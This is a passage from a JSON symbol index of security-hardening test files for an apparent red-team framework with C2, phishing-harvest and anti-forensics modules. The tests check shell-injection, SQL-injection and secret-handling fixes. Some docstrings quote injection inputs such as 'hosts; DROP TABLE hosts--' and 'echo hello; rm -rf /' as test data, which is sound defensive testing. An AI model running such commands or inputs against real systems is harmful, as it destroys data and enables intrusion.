"name": "TestTimingAttackPrevention", "signature": "class TestTimingAttackPrevention"}, {"doc": "CONTRACT: SafeRunner.run_shell must parse the command with shlex.split\nand execute via subprocess.run(argv, shell=False). It must NOT use\nshell=True, which would bypass the shlex parsing.", "kind": "class", "line": 176, "name": "TestSafeRunnerShellFalse", "signature": "class TestSafeRunnerShellFalse"}, {"doc": "CONTRACT: utils.py must not import pickle, as it enables RCE via\nuntrusted deserialization.", "kind": "class", "line": 229, "name": "TestPickleRemoved", "signature": "class TestPickleRemoved"}, {"doc": "CONTRACT: create_caldera_config must generate random keys at runtime,\nnot use hardcoded values like LAZYOWNBLUEADMIN123.", "kind": "class", "line": 250, "name": "TestCalderaConfigSecrets", "signature": "class TestCalderaConfigSecrets"}, {"doc": "CONTRACT: Default model names and hosts must be defined in exactly one\nplace (modules/llm_factory.py) and imported everywhere else.", "kind": "class", "line": 279, "name": "TestConfigConstantsConsolidation", "signature": "class TestConfigConstantsConsolidation"}, {"doc": "CONTRACT: When crypto module is unavailable and credentials are stored\nas plaintext, a WARNING must be logged (not silently ignored).", "kind": "class", "line": 325, "name": "TestCredentialEncryptionWarning", "signature": "class TestCredentialEncryptionWarning"}, {"doc": "CONTRACT: OPENSSL_CONF must use setdefault (not overwrite) so system\ndefault is preserved when the file does not exist.", "kind": "class", "line": 357, "name": "TestOpenSSLConf", "signature": "class TestOpenSSLConf"}, {"doc": "BDD-style integration test for the full auth flow.", "kind": "class", "line": 377, "name": "TestAuthTimingIntegration", "signature": "class TestAuthTimingIntegration"}, {"doc": "BDD: Given the schema defines hosts, services, vulns, creds, loot, notes,\nWhen I check VALID_TABLES, Then it must contain exactly those six tables.", "kind": "method", "line": 39, "name": "test_valid_tables_constant_is_complete", "signature": "def test_valid_tables_constant_is_complete(self)"}, {"doc": "BDD: Given an attacker provides table='hosts; DROP TABLE hosts--',\nWhen export_csv is called, Then it must raise ValueError.", "kind": "method", "line": 45, "name": "test_export_csv_rejects_malicious_table_name", "signature": "def test_export_csv_rejects_malicious_table_name(self, fresh_db)"}, {"doc": "BDD: Given table='creds UNION SELECT * FROM users',\nWhen export_csv is called, Then it must raise ValueError.", "kind": "method", "line": 51, "name": "test_export_csv_rejects_union_select", "signature": "def test_export_csv_rejects_union_select(self, fresh_db)"}, {"doc": "BDD: Given a valid table name from the schema,\nWhen export_csv is called, Then it must not raise ValueError.", "kind": "method", "line": 57, "name": "test_export_csv_accepts_all_valid_tables", "signature": "def test_export_csv_accepts_all_valid_tables(self, fresh_db)"}, {"kind": "method", "line": 72, "name": "fresh_db", "signature": "def fresh_db(self)"}, {"kind": "method", "line": 89, "name": "db_with_hosts", "signature": "def db_with_hosts(self)"}, {"doc": "BDD: Given query contains a literal percent sign,\nWhen host_find is called, Then it must not match all hosts.", "kind": "method", "line": 98, "name": "test_percent_literal_not_wildcard", "signature": "def test_percent_literal_not_wildcard(self, db_with_hosts)"}, {"doc": "BDD: Given query contains a literal underscore,\nWhen host_find is called, Then it must not match any single character.", "kind": "method", "line": 107, "name": "test_underscore_literal_not_wildcard", "signature": "def test_underscore_literal_not_wildcard(self, db_with_hosts)"}, {"doc": "BDD: Given a normal search term,\nWhen host_find is called, Then matching hosts are returned.", "kind": "method", "line": 116, "name": "test_normal_query_still_works", "signature": "def test_normal_query_still_works(self, db_with_hosts)"}, {"doc": "BDD: Given two credentials, When check_auth compares them,\nThen hmac.compare_digest must be used (not == operator).", "kind": "method", "line": 136, "name": "test_check_auth_uses_hmac_compare_digest", "signature": "def test_check_auth_uses_hmac_compare_digest(self)"}, {"doc": "BDD: Given a correct and incorrect username of same length,\nWhen compared with hmac.compare_digest, Then result differs but timing is constant.", "kind": "method", "line": 161, "name": "test_hmac_compare_digest_rejects_timing_difference", "signature": "def test_hmac_compare_digest_rejects_timing_difference(self)"}, {"doc": "BDD: Given SafeRunner.run_shell is called,\nWhen subprocess.run is invoked, Then shell must be False.", "kind": "method", "line": 181, "name": "test_run_shell_does_not_use_shell_true", "signature": "def test_run_shell_does_not_use_shell_true(self)"}, {"doc": "BDD: Given a command with pipe, When run_shell is called,\nThen it should execute the first command (shell=False does not interpret pipes).", "kind": "method", "line": 200, "name": "test_run_shell_with_pipe_character", "signature": "def test_run_shell_with_pipe_character(self)"}, {"doc": "BDD: Given 'echo hello; rm -rf /', When run_shell is called with shell=False,\nThen the semicolon is treated as an argument, not a separator.", "kind": "method", "line": 212, "name": "test_run_shell_with_semicolon_is_treated_as_argument", "signature": "def test_run_shell_with_semicolon_is_treated_as_argument(self)"}, {"doc": "BDD: Given utils.py is imported, When I check its imports,\nThen pickle must not be among them.", "kind": "method", "line": 233, "name": "test_pickle_not_imported_in_utils", "signature": "def test_pickle_not_imported_in_utils(self)"}, {"doc": "BDD: Given create_caldera_config is called,\nWhen I inspect the generated config, Then no hardcoded API keys appear.", "kind": "method", "line": 254, "name": "test_no_hardcoded_api_keys_in_caldera_config", "signature": "def test_no_hardcoded_api_keys_in_caldera_config(self)"}, {"doc": "BDD: Given create_caldera_config source,\nWhen I check the function body, Then it must import and use secrets.", "kind": "method", "line": 263, "name": "test_caldera_config_uses_secrets_module", "signature": "def test_caldera_config_uses_secrets_module(self)"}, {"doc": "BDD: Given modules/llm_factory.py, When I check for DEFAULT constants,\nThen DEFAULT_GROQ_MODEL and DEFAULT_OLLAMA_HOST must be defined.", "kind": "method", "line": 283, "name": "test_llm_factory_defines_constants", "signature": "def test_llm_factory_defines_constants(self)"}, {"doc": "BDD: Given modules/ai_fallback.py, When I check its imports,\nThen it must import _GROQ_MODEL and _OLLAMA_HOST from llm_factory.", "kind": "method", "line": 291, "name": "test_ai_fallback_imports_from_llm_factory", "signature": "def test_ai_fallback_imports_from_llm_factory(self)"}, {"doc": "BDD: Given cli/commands/ai.py, When I check its imports,\nThen CONFIG_KEY and DEFAULT constants must come from llm_factory.", "kind": "method", "line": 306, "name": "test_cli_ai_imports_from_llm_factory", "signature": "def test_cli_ai_imports_from_llm_factory(self)"}, {"doc": "BDD: Given modules/db.py, When I check its imports,\nThen logging must be imported.", "kind": "method", "line": 329, "name": "test_db_module_has_logging_import", "signature": "def test_db_module_has_logging_import(self)"}, {"doc": "BDD: Given _maybe_encrypt fails with ImportError,\nWhen the exception is caught, Then a warning must be logged.", "kind": "method", "line": 336, "name": "test_db_maybe_encrypt_has_warning_log", "signature": "def test_db_maybe_encrypt_has_warning_log(self)"}, {"doc": "BDD: Given _maybe_decrypt fails,\nWhen the exception is caught, Then a warning must be logged.", "kind": "method", "line": 344, "name": "test_db_maybe_decrypt_logs_failure", "signature": "def test_db_maybe_decrypt_logs_failure(self)"}, {"doc": "BDD: Given utils.py sets OPENSSL_CONF,\nWhen I check the assignment, Then it must use os.environ.setdefault.", "kind": "method", "line": 361, "name": "test_openssl_conf_uses_setdefault", "signature": "def test_openssl_conf_uses_setdefault(self)"}, {"doc": "BDD: Given wrong username and password,\nWhen check_auth is called, Then it returns False.", "kind": "method", "line": 380, "name": "test_check_auth_returns_false_for_wrong_credentials", "signature": "def test_check_auth_returns_false_for_wrong_credentials(self)"}, {"doc": "BDD: Given lazyc2.py, When I check its imports,\nThen hmac must be imported.", "kind": "method", "line": 390, "name": "test_hmac_module_imported_in_lazyc2", "signature": "def test_hmac_module_imported_in_lazyc2(self)"}]}, {"doc": "SDD+TDD+BDD tests for security hardening batch v2.  Contract: Every security fix in this batch has a corresponding test that verifies the fix works and would detect regression. Tests are written BEHAVIOURALLY (BDD-style) so they read as specifications.  Covers: - P0: Command injection prevention in cli/commands/ai.py - P0: Credential injection prevention in cli/commands/postexp_migrated.py - P1: DNS command allowlist enforcement in lazyc2.py - P1: Safe shell execution in cli/commands/misc_migrated.py - P1: Credential encryption at rest in modules/phishing_orchestrator.py", "id": "tests/test_security_hardening_v2.py", "kind": "module", "label": "test_security_hardening_v2.py", "language": "py", "sha256": "6d735edaf01c7d3e", "symbol_count": 39, "symbols": [{"kind": "function", "line": 25, "name": "_read", "signature": "def _read(relpath)"}, {"doc": "CONTRACT: The do_ask and do_groq methods must NEVER pass api_key or\nuser prompts through os.system(), shell string interpolation, or a\nspawned Python subprocess. They resolve the backend in-process through\nmodules.llm_factory / modules.llm_adapter, so secrets never cross a\nprocess boundary and prompts are never shell-quoted.", "kind": "class", "line": 34, "name": "TestAICommandInjectionPrevention", "signature": "class TestAICommandInjectionPrevention"}, {"doc": "CONTRACT: The postexp_migrated module must NEVER pass passwords\nthrough shell command strings via sshpass -p '{password}'.\nPasswords must be passed via SSHPASS environment variable with -e flag.", "kind": "class", "line": 92, "name": "TestSSHCredentialInjectionPrevention", "signature": "class TestSSHCredentialInjectionPrevention"}, {"doc": "CONTRACT: The DNS C2 resolver must validate decoded commands against\na strict allowlist before processing. Unknown commands must be rejected.", "kind": "class", "line": 157, "name": "TestDNSCommandAllowlist", "signature": "class TestDNSCommandAllowlist"}, {"doc": "CONTRACT: The do_sys command must route through the audited\ncore.safe_exec.safe_run_shell gate with output capture instead of a raw\nsubprocess.run with shell=True.", "kind": "class", "line": 220, "name": "TestSafeShellExecution", "signature": "class TestSafeShellExecution"}, {"doc": "CONTRACT: Harvested phishing credentials must be encrypted before\nwriting to disk. Passwords must never appear in plaintext in JSON\nor log files.", "kind": "class", "line": 288, "name": "TestCredentialEncryptionAtRest", "signature": "class TestCredentialEncryptionAtRest"}, {"doc": "CONTRACT: Security-critical modules must not use os.system() which\nprovides no output capture, no exit code control, and is vulnerable\nto shell injection.", "kind": "class", "line": 349, "name": "TestNoOsSystemInCriticalPaths", "signature": "class TestNoOsSystemInCriticalPaths"}, {"doc": "BDD: Given the ai module source is loaded,\nWhen I scan for os.system calls,\nThen none must exist.", "kind": "method", "line": 43, "name": "test_no_os_system_in_ai_module", "signature": "def test_no_os_system_in_ai_module(self)"}, {"doc": "BDD: Given do_ask/do_groq answer in-process,\nWhen I scan for subprocess usage,\nThen no subprocess import or call must exist.", "kind": "method", "line": 49, "name": "test_no_subprocess_in_ai_module", "signature": "def test_no_subprocess_in_ai_module(self)"}, {"doc": "BDD: Given the ai module source is loaded,\nWhen I scan for shell execution,\nThen shell=True must not appear.", "kind": "method", "line": 57, "name": "test_no_shell_true_in_ai_module", "signature": "def test_no_shell_true_in_ai_module(self)"}, {"doc": "BDD: Given the api_key must stay inside backend construction,\nWhen I scan for env-dict or CLI-arg key passing,\nThen neither pattern must exist.", "kind": "method", "line": 63, "name": "test_api_key_never_leaves_factory_path", "signature": "def test_api_key_never_leaves_factory_path(self)"}, {"doc": "BDD: Given do_ask/do_groq must use the single source of truth,\nWhen I scan the module,\nThen the canonical adapter and factory entry points must be used.", "kind": "method", "line": 70, "name": "test_answers_through_canonical_backend", "signature": "def test_answers_through_canonical_backend(self)"}, {"doc": "BDD: Given the source is scanned for f-string command construction,\nWhen api_key appears in an f-string targeting subprocess,\nThen it must be in the env parameter only.", "kind": "method", "line": 77, "name": "test_no_fstring_with_api_key_in_command", "signature": "def test_no_fstring_with_api_key_in_command(self)"}, {"doc": "BDD: Given the postexp module source is loaded,\nWhen I scan for sshpass -p in actual code (not docstrings),\nThen it must not appear.", "kind": "method", "line": 99, "name": "test_no_sshpass_minus_p_in_code", "signature": "def test_no_sshpass_minus_p_in_code(self)"}, {"doc": "BDD: Given sshpass is invoked,\nWhen the command is constructed,\nThen it must use the -e flag for environment-based password.", "kind": "method", "line": 116, "name": "test_sshpass_uses_e_flag", "signature": "def test_sshpass_uses_e_flag(self)"}, {"doc": "BDD: Given sshpass is invoked,\nWhen the password is passed,\nThen it must be via SSHPASS environment variable.", "kind": "method", "line": 122, "name": "test_ssppass_env_var_used", "signature": "def test_ssppass_env_var_used(self)"}, {"doc": "BDD: Given sshpass is invoked,\nWhen subprocess.run is called,\nThen it must use list-form arguments.", "kind": "method", "line": 128, "name": "test_sshpass_in_list_form", "signature": "def test_sshpass_in_list_form(self)"}, {"doc": "BDD: Given a password contains shell metacharacters,\nWhen the SCP command is constructed,\nThen the password must not appear in any f-string in code.", "kind": "method", "line": 134, "name": "test_password_not_in_fstring_command", "signature": "def test_password_not_in_fstring_command(self)"}, {"doc": "BDD: Given the lazyc2 module source is loaded,\nWhen I check for the DNS command allowlist,\nThen _DNS_COMMAND_ALLOWLIST must be defined as a frozenset.", "kind": "method", "line": 163, "name": "test_allowlist_exists_as_frozenset", "signature": "def test_allowlist_exists_as_frozenset(self)"}, {"doc": "BDD: Given the DNS resolver processes commands,\nWhen a command is decoded,\nThen _DNS_MAX_DECODED_LENGTH must be defined.", "kind": "method", "line": 169, "name": "test_max_length_constant_exists", "signature": "def test_max_length_constant_exists(self)"}, {"doc": "BDD: Given the allowlist is defined,\nWhen I inspect its size,\nThen it must contain fewer than 20 entries (principle of least privilege).", "kind": "method", "line": 175, "name": "test_allowlist_is_finite_and_reasonable", "signature": "def test_allowlist_is_finite_and_reasonable(self)"}, {"doc": "BDD: Given a DNS query is decoded,\nWhen the command starts with 'exec:',\nThen the handler must check if the command is in _DNS_COMMAND_ALLOWLIST.", "kind": "method", "line": 188, "name": "test_dns_handler_checks_allowlist", "signature": "def test_dns_handler_checks_allowlist(self)"}, {"doc": "BDD: Given a DNS query decodes to a very long string,\nWhen the handler processes it,\nThen it must check len(command) against _DNS_MAX_DECODED_LENGTH.", "kind": "method", "line": 194, "name": "test_dns_handler_checks_length", "signature": "def test_dns_handler_checks_length(self)"}, {"doc": "BDD: Given the allowlist is defined,\nWhen I check for dangerous commands,\nThen destructive commands must not be in the allowlist.", "kind": "method", "line": 200, "name": "test_dangerous_command_not_in_allowlist", "signature": "def test_dangerous_command_not_in_allowlist(self)"}, {"doc": "BDD: Given the misc_migrated source is loaded,\nWhen I locate the do_sys method,\nThen it must use the safe_run_shell gate, not a raw shell.", "kind": "method", "line": 227, "name": "test_do_sys_uses_safe_runner", "signature": "def test_do_sys_uses_safe_runner(self)"}, {"doc": "BDD: Given a command is executed via 'sys',\nWhen the command produces stdout/stderr,\nThen the output must be captured.", "kind": "method", "line": 246, "name": "test_do_sys_captures_output", "signature": "def test_do_sys_captures_output(self)"}, {"doc": "BDD: Given the shell command module sources,\nWhen I scan for os.system in actual code (not docstrings),\nThen it must not appear in any command execution method.", "kind": "method", "line": 264, "name": "test_no_os_system_in_misc_module_code", "signature": "def test_no_os_system_in_misc_module_code(self)"}, {"doc": "BDD: Given the phishing orchestrator source is loaded,\nWhen I check for credential encryption,\nThen _encrypt_credential function must be defined.", "kind": "method", "line": 295, "name": "test_encrypt_function_exists", "signature": "def test_encrypt_function_exists(self)"}, {"doc": "BDD: Given encrypted credentials exist on disk,\nWhen the operator needs to read them,\nThen _decrypt_credential must be defined.", "kind": "method", "line": 301, "name": "test_decrypt_function_exists", "signature": "def test_decrypt_function_exists(self)"}, {"doc": "BDD: Given credentials are logged,\nWhen writing to the audit log,\nThen _hash_credential_for_log must be defined.", "kind": "method", "line": 307, "name": "test_hash_function_exists", "signature": "def test_hash_function_exists(self)"}, {"doc": "BDD: Given record_credentials is called,\nWhen the password is written to JSON,\nThen _encrypt_credential must be called on the password.", "kind": "method", "line": 313, "name": "test_record_credentials_encrypts_password", "signature": "def test_record_credentials_encrypts_password(self)"}, {"doc": "BDD: Given the audit log is written,\nWhen the password field is recorded,\nThen _hash_credential_for_log must be used, not plaintext.", "kind": "method", "line": 319, "name": "test_log_uses_hash_not_plaintext", "signature": "def test_log_uses_hash_not_plaintext(self)"}, {"doc": "BDD: Given credentials are encrypted,\nWhen the encryption is performed,\nThen AES-256-GCM must be used (via core.crypto).", "kind": "method", "line": 325, "name": "test_uses_aes_encryption", "signature": "def test_uses_aes_encryption(self)"}, {"doc": "BDD: Given encrypted bytes need to be stored as text,\nWhen the encryption is performed,\nThen base64 encoding must be used.", "kind": "method", "line": 331, "name": "test_imports_base64_for_encoding", "signature": "def test_imports_base64_for_encoding(self)"}, {"doc": "BDD: Given encryption requires a key,\nWhen the key is derived,\nThen _derive_credential_key must be defined.", "kind": "method", "line": 337, "name": "test_credential_key_derivation", "signature": "def test_credential_key_derivation(self)"}, {"doc": "BDD: Given the AI command module source,\nWhen I scan for os.system calls,\nThen none must exist.", "kind": "method", "line": 354, "name": "test_ai_module_no_os_system", "signature": "def test_ai_module_no_os_system(self)"}, {"doc": "BDD: Given the post-exploitation module source,\nWhen I scan for sshpass in f-strings in code,\nThen none must exist.", "kind": "method", "line": 361, "name": "test_postexp_no_sshpass_in_fstring_code", "signature": "def test_postexp_no_sshpass_in_fstring_code(self)"}, {"doc": "BDD: Given the DNS resolver source,\nWhen I scan for the exec: handler,\nThen it must contain an allowlist check.", "kind": "method", "line": 379, "name": "test_dns_resolver_has_allowlist_guard", "signature": "def test_dns_resolver_has_allowlist_guard(self)"}, {"doc": "BDD: Given the shellsys module source,\nWhen I locate the do_sys method,\nThen os.system must not be used.", "kind": "method", "line": 386, "name": "test_misc_sys_no_os_system", "signature": "def test_misc_sys_no_os_system(self)"}]}, {"doc": "Security hardening tests — SDD+TDD+BDD for all boy-scout fixes.  Contract: every fix from the security audit must have a test that: 1. Validates the vulnerable pattern is eliminated (red-green). 2. Confirms the safe alternative behaves correctly. 3. Covers edge cases (empty input, special chars, traversal attempts).  Run: pytest tests/test_security_hardening_v3.py -v", "id": "tests/test_security_hardening_v3.py", "kind": "module", "label": "test_security_hardening_v3.py", "language": "py", "sha256": "e7e6a0e567558447", "symbol_count": 64, "symbols": [{"doc": "BDD: GIVEN a command to run, WHEN using safe_subprocess_run,\nTHEN it must never invoke a shell and must reject null bytes.", "kind": "class", "line": 21, "name": "TestSafeSubprocessRun", "signature": "class TestSafeSubprocessRun"}, {"doc": "BDD: GIVEN content to copy, WHEN using safe_clipboard_copy,\nTHEN it uses subprocess list-form and rejects oversized content.", "kind": "class", "line": 116, "name": "TestSafeClipboardCopy", "signature": "class TestSafeClipboardCopy"}, {"doc": "BDD: GIVEN ssh credentials, WHEN building sshpass command,\nTHEN it must use -e flag and never expose password.", "kind": "class", "line": 134, "name": "TestBuildSshpassCommand", "signature": "class TestBuildSshpassCommand"}, {"doc": "BDD: GIVEN a password, WHEN setting sshpass env,\nTHEN SSHPASS is set and null bytes are rejected.", "kind": "class", "line": 159, "name": "TestSetSshpassEnv", "signature": "class TestSetSshpassEnv"}, {"doc": "BDD: GIVEN user-controlled data, WHEN escaping for HTML,\nTHEN special characters are properly escaped.", "kind": "class", "line": 182, "name": "TestEscapeHtmlContent", "signature": "class TestEscapeHtmlContent"}, {"doc": "BDD: GIVEN a base dir and user path, WHEN joining safely,\nTHEN path traversal is blocked.", "kind": "class", "line": 213, "name": "TestSafePathJoin", "signature": "class TestSafePathJoin"}, {"doc": "BDD: GIVEN a network CIDR, WHEN validating,\nTHEN only valid notation is accepted.", "kind": "class", "line": 244, "name": "TestValidateNetworkCidr", "signature": "class TestValidateNetworkCidr"}, {"doc": "BDD: GIVEN a port specification, WHEN validating,\nTHEN only valid formats are accepted.", "kind": "class", "line": 266, "name": "TestValidatePortSpec", "signature": "class TestValidatePortSpec"}, {"doc": "BDD: GIVEN a hostname or IP, WHEN validating,\nTHEN only valid formats are accepted.", "kind": "class", "line": 284, "name": "TestValidateHost", "signature": "class TestValidateHost"}, {"doc": "BDD: WHEN requiring an encryption key,\nTHEN it must never fall back to a static default.", "kind": "class", "line": 305, "name": "TestRequireEncryptionKey", "signature": "class TestRequireEncryptionKey"}, {"doc": "BDD: GIVEN a filename, WHEN sanitizing,\nTHEN dangerous characters are removed.", "kind": "class", "line": 332, "name": "TestSanitizeFilename", "signature": "class TestSanitizeFilename"}, {"doc": "BDD: GIVEN the phishing orchestrator,\nTHEN it must require a proper encryption key.", "kind": "class", "line": 356, "name": "TestPhishingOrchestratorKey", "signature": "class TestPhishingOrchestratorKey"}, {"doc": "BDD: GIVEN a command for the ICMP server,\nTHEN it must not use shell=True.", "kind": "class", "line": 379, "name": "TestIcmpServerCommandExecution", "signature": "class TestIcmpServerCommandExecution"}, {"doc": "BDD: GIVEN a resource script command,\nTHEN it must not use shell=True.", "kind": "class", "line": 405, "name": "TestResourceScriptEngine", "signature": "class TestResourceScriptEngine"}, {"doc": "BDD: GIVEN pivoting operations,\nTHEN shell=True must be eliminated from pivoting code.", "kind": "class", "line": 420, "name": "TestPivotingCommands", "signature": "class TestPivotingCommands"}, {"doc": "BDD: GIVEN anti-forensics operations,\nTHEN shell=True must be eliminated from anti_forensics code.", "kind": "class", "line": 439, "name": "TestAntiForensicsCommands", "signature": "class TestAntiForensicsCommands"}, {"kind": "method", "line": 25, "name": "test_rejects_empty_argv", "signature": "def test_rejects_empty_argv(self)"}, {"kind": "method", "line": 31, "name": "test_rejects_null_bytes", "signature": "def test_rejects_null_bytes(self)"}, {"kind": "method", "line": 37, "name": "test_runs_command_without_shell", "signature": "def test_runs_command_without_shell(self)"}, {"kind": "method", "line": 44, "name": "test_captures_stderr", "signature": "def test_captures_stderr(self)"}, {"kind": "method", "line": 51, "name": "test_shell_false_enforced", "signature": "def test_shell_false_enforced(self)"}, {"kind": "method", "line": 62, "name": "test_returns_completed_process_fields", "signature": "def test_returns_completed_process_fields(self)"}, {"kind": "method", "line": 71, "name": "test_timeout_passed_through", "signature": "def test_timeout_passed_through(self)"}, {"kind": "method", "line": 82, "name": "test_capture_output_default_true", "signature": "def test_capture_output_default_true(self)"}, {"kind": "method", "line": 93, "name": "test_check_false", "signature": "def test_check_false(self)"}, {"kind": "method", "line": 104, "name": "test_text_mode_enabled", "signature": "def test_text_mode_enabled(self)"}, {"kind": "method", "line": 120, "name": "test_rejects_oversized_content", "signature": "def test_rejects_oversized_content(self)"}, {"kind": "method", "line": 126, "name": "test_returns_false_without_clipboard_tool", "signature": "def test_returns_false_without_clipboard_tool(self)"}, {"kind": "method", "line": 138, "name": "test_uses_e_flag_not_p", "signature": "def test_uses_e_flag_not_p(self)"}, {"kind": "method", "line": 146, "name": "test_rejects_oversized_password", "signature": "def test_rejects_oversized_password(self)"}, {"kind": "method", "line": 152, "name": "test_rejects_null_bytes_in_password", "signature": "def test_rejects_null_bytes_in_password(self)"}, {"kind": "method", "line": 163, "name": "test_sets_ssplash_env", "signature": "def test_sets_ssplash_env(self)"}, {"kind": "method", "line": 169, "name": "test_preserves_existing_env", "signature": "def test_preserves_existing_env(self)"}, {"kind": "method", "line": 175, "name": "test_rejects_null_bytes", "signature": "def test_rejects_null_bytes(self)"}, {"kind": "method", "line": 186, "name": "test_escapes_script_tags", "signature": "def test_escapes_script_tags(self)"}, {"kind": "method", "line": 193, "name": "test_escapes_quotes", "signature": "def test_escapes_quotes(self)"}, {"kind": "method", "line": 200, "name": "test_preserves_safe_content", "signature": "def test_preserves_safe_content(self)"}, {"kind": "method", "line": 206, "name": "test_handles_empty_string", "signature": "def test_handles_empty_string(self)"}, {"kind": "method", "line": 217, "name": "test_allows_safe_paths", "signature": "def test_allows_safe_paths(self, tmp_path)"}, {"kind": "method", "line": 223, "name": "test_blocks_traversal", "signature": "def test_blocks_traversal(self, tmp_path)"}, {"kind": "method", "line": 229, "name": "test_blocks_symlink_escape", "signature": "def test_blocks_symlink_escape(self, tmp_path)"}, {"kind": "method", "line": 237, "name": "test_rejects_empty_path", "signature": "def test_rejects_empty_path(self, tmp_path)"}, {"kind": "method", "line": 248, "name": "test_accepts_valid_cidr", "signature": "def test_accepts_valid_cidr(self)"}, {"kind": "method", "line": 254, "name": "test_rejects_invalid_cidr", "signature": "def test_rejects_invalid_cidr(self)"}, {"kind": "method", "line": 260, "name": "test_rejects_empty", "signature": "def test_rejects_empty(self)"}, {"kind": "method", "line": 270, "name": "test_accepts_valid_ports", "signature": "def test_accepts_valid_ports(self)"}, {"kind": "method", "line": 277, "name": "test_rejects_invalid_ports", "signature": "def test_rejects_invalid_ports(self)"}, {"kind": "method", "line": 288, "name": "test_accepts_valid_ip", "signature": "def test_accepts_valid_ip(self)"}, {"kind": "method", "line": 293, "name": "test_accepts_valid_hostname", "signature": "def test_accepts_valid_hostname(self)"}, {"kind": "method", "line": 298, "name": "test_rejects_invalid", "signature": "def test_rejects_invalid(self)"}, {"kind": "method", "line": 309, "name": "test_raises_without_key", "signature": "def test_raises_without_key(self)"}, {"kind": "method", "line": 316, "name": "test_reads_from_env", "signature": "def test_reads_from_env(self)"}, {"kind": "method", "line": 323, "name": "test_reads_from_file", "signature": "def test_reads_from_file(self, tmp_path)"}, {"kind": "method", "line": 336, "name": "test_removes_dangerous_chars", "signature": "def test_removes_dangerous_chars(self)"}, {"kind": "method", "line": 343, "name": "test_handles_empty", "signature": "def test_handles_empty(self)"}, {"kind": "method", "line": 349, "name": "test_truncates_long_names", "signature": "def test_truncates_long_names(self)"}, {"kind": "method", "line": 360, "name": "test_raises_without_key", "signature": "def test_raises_without_key(self)"}, {"kind": "method", "line": 371, "name": "test_works_with_env_key", "signature": "def test_works_with_env_key(self)"}, {"kind": "method", "line": 383, "name": "test_execute_command_uses_list_form", "signature": "def test_execute_command_uses_list_form(self)"}, {"kind": "method", "line": 392, "name": "test_handles_empty_command", "signature": "def test_handles_empty_command(self)"}, {"kind": "method", "line": 398, "name": "test_handles_invalid_command", "signature": "def test_handles_invalid_command(self)"}, {"kind": "method", "line": 409, "name": "test_run_command_uses_list_form", "signature": "def test_run_command_uses_list_form(self)"}, {"kind": "method", "line": 424, "name": "test_pivoting_module_has_no_shell_true", "signature": "def test_pivoting_module_has_no_shell_true(self)"}, {"kind": "method", "line": 443, "name": "test_anti_forensics_has_no_shell_true", "signature": "def test_anti_forensics_has_no_shell_true(self)"}]}, {"doc": "SDD+TDD+BDD tests for security hardening v4 — command execution, URL injection, and path traversal.  Contract: Every security fix in this batch has a corresponding test that verifies the fix works and would detect regression. Tests are written BEHAVIOURALLY (BDD-style) so they read as specifications.  Covers: - core/safe_exec.py: safe_system, safe_run_argv, safe_run_shell, validate_url, safe_git_clone, safe_ip_show - poc_tui/plugin_loader.py: URL injection via git clone - modules/morse.py: os.system removed - modules/c2_builder.py: os.system replaced with Python-native ops - lazyc2.py: execute_command uses shell=False - cli/commands/misc_migrated.py: os.system and shell=True removed - cli/commands/recon_migrated.py: os.system replaced with Python - Hardcoded absolute paths eliminated - modules/conditional_hooks.py: shlex.quote injection prevention", "id": "tests/test_security_hardening_v4.py", "kind": "module", "label": "test_security_hardening_v4.py", "language": "py", "sha256": "6608dbee1bb5f229", "symbol_count": 67, "symbols": [{"doc": "CONTRACT: safe_system must reject commands containing shell\nmetacharacters that could indicate injection attempts.", "kind": "class", "line": 34, "name": "TestSafeSystem", "signature": "class TestSafeSystem"}, {"doc": "CONTRACT: safe_run_argv must always use shell=False and reject\nnull bytes in arguments.", "kind": "class", "line": 100, "name": "TestSafeRunArgv", "signature": "class TestSafeRunArgv"}, {"doc": "CONTRACT: validate_url must reject URLs containing shell\nmetacharacters and non-HTTP schemes.", "kind": "class", "line": 135, "name": "TestValidateUrl", "signature": "class TestValidateUrl"}, {"doc": "CONTRACT: safe_git_clone must validate the URL and use\nsubprocess list-form, never os.system.", "kind": "class", "line": 201, "name": "TestSafeGitClone", "signature": "class TestSafeGitClone"}, {"doc": "CONTRACT: safe_ip_show must parse 'ip a show' output in Python,\nnever via shell pipes.", "kind": "class", "line": 231, "name": "TestSafeIpShow", "signature": "class TestSafeIpShow"}, {"doc": "CONTRACT: The plugin loader must validate git clone URLs and\nreject shell metacharacters.", "kind": "class", "line": 266, "name": "TestPluginLoaderUrlInjection", "signature": "class TestPluginLoaderUrlInjection"}, {"doc": "CONTRACT: modules/morse.py must not contain any os.system calls.", "kind": "class", "line": 336, "name": "TestMorseNoOsSystem", "signature": "class TestMorseNoOsSystem"}, {"doc": "CONTRACT: modules/c2_builder.py must not use os.system for\nbeacon encryption or tunnel URL extraction.", "kind": "class", "line": 359, "name": "TestC2BuilderNoOsSystem", "signature": "class TestC2BuilderNoOsSystem"}, {"doc": "CONTRACT: The execute_command function in lazyc2.py must use\nshell=False with shlex.split.", "kind": "class", "line": 391, "name": "TestExecuteCommandShellFalse", "signature": "class TestExecuteCommandShellFalse"}, {"doc": "CONTRACT: The do_ip and do_ipp functions must not use os.system\nor subprocess with shell=True for IP display.", "kind": "class", "line": 415, "name": "TestMiscMigratedIpDisplay", "signature": "class TestMiscMigratedIpDisplay"}, {"doc": "CONTRACT: Production code must not contain hardcoded absolute paths\nto user home directories.", "kind": "class", "line": 439, "name": "TestNoHardcodedPaths", "signature": "class TestNoHardcodedPaths"}, {"doc": "CONTRACT: conditional_hooks.py must quote placeholder values\nwith shlex.quote before inserting them into shell commands.", "kind": "class", "line": 512, "name": "TestConditionalHooksInjectionPrevention", "signature": "class TestConditionalHooksInjectionPrevention"}, {"doc": "CONTRACT: safe_clear_screen must use tput or ANSI escapes,\nnever os.system.", "kind": "class", "line": 529, "name": "TestSafeClearScreen", "signature": "class TestSafeClearScreen"}, {"doc": "CONTRACT: cli/commands/recon_migrated.py must not use os.system\nfor PATH modification.", "kind": "class", "line": 559, "name": "TestReconMigratedNoOsSystem", "signature": "class TestReconMigratedNoOsSystem"}, {"doc": "CONTRACT: safe_file_read must enforce a size limit to prevent\nmemory exhaustion attacks.", "kind": "class", "line": 576, "name": "TestSafeFileRead", "signature": "class TestSafeFileRead"}, {"doc": "CONTRACT: safe_find_tool must use shutil.which to find tools,\nreplacing hardcoded paths.", "kind": "class", "line": 624, "name": "TestSafeFindTool", "signature": "class TestSafeFindTool"}, {"doc": "BDD: Given a command with a semicolon, When I call safe_system,\nThen it must raise CommandInjectionError.", "kind": "method", "line": 38, "name": "test_rejects_semicolon", "signature": "def test_rejects_semicolon(self)"}, {"doc": "BDD: Given a command with a pipe, When I call safe_system,\nThen it must raise CommandInjectionError.", "kind": "method", "line": 46, "name": "test_rejects_pipe", "signature": 